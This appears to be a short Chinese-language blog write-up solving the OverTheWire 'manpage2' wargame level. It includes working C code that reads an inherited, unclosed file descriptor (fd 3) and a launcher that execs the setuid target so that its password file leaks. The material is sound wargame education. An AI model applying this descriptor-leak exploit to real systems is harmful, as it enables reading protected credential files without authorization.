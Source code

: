```yaml
---
title: manpage2
author: rk700
layout: post
redirect_from: /writeup/2014/07/18/manpage2
tags: 
  - OverTheWire
  - exploit
---
```

问题出在，密码文件打开之后没有关闭，而fd是可以从exec继承的。于是我们先写一个读文件内容的程序 

{% highlight c %}
#include <unistd.h>

int main () {
    char buf[64];
    lseek(3, 0, SEEK_SET);
    ssize_t num;
    while((num=read(3,buf,sizeof buf)) > 0)
        write(STDOUT_FILENO, buf, num);
    return 0;
}
{% endhighlight %}

这里fd是3因为打开的密码文件的fd应该是接着0,1,2

然后执行manpage2的程序，让argv[0]为我们的读密码程序 

{% highlight c %}
#include <unistd.h>

int main (int argc, char *args[]) {
    execl("/manpage/manpage2", "./getPass", NULL);
}
{% endhighlight %}
